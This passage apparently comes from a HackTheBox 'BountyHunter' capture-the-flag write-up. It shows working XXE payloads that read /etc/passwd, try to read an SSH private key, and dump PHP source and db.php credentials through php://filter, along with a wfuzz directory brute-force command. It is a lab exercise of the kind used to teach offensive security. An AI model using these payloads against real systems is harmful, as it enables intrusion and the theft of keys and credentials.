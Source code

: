 ### 3.1 XXE Injection

We craft a payload to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

Encode to Base64 and send via Burp Repeater:

![bs_xxe_sended](GitHubv2/HackTheBox/EASY/BountyHunter/screenshots/bs_xxe_sended.png)

Result shows `/etc/passwd`, confirming **XXE exploitation**.  
We discover users `root` and `development`.

Next, attempt `/home/development/.ssh/id_rsa`:

![bs_id_rsa_sended](GitHubv2/HackTheBox/EASY/BountyHunter/screenshots/bs_id_rsa_sended.png)

Failed. We pivot to reading PHP source code.

### 3.2 Reading PHP Source

Using **php://filter** we dump `log_submit.php`:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=log_submit.php"> ]>
```

![bs_log_submit_sended](GitHubv2/HackTheBox/EASY/BountyHunter/screenshots/bs_log_submit_sended.png)

Decoded PHP reveals simple input handling, no sensitive data.

We brute-force directories with **WFuzz**:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.100/FUZZ.php
```

![wfuzz](GitHubv2/HackTheBox/EASY/BountyHunter/screenshots/wfuzz.png)

Findings: **index.php** and **db.php**

Dumping `db.php` with XXE:

![bs_db_sended](GitHubv2/HackTheBox/EASY/BountyHunter/screenshots/bs_db_sended.png)

Decoded credentials:
